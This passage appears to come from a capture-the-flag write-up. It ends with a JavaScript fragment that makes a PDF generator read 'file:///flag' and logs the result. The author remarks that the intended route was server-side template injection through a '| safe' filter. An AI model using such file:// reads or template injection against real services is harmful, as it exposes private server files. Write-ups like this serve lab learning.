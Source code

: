 ```javascript
		blob = await generatePDF("file:///flag");
		await logfile(blob);
	} catch (e) {
		log(e.toString());
	}
};

main();
```

I guess that the intended solution was to trigger the RCE with the report generating and templating ([SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)) with the `| safe` keyword I mentioned in the beginning, but it doesn't matter how you get to the flag as long as you get it, right? :D
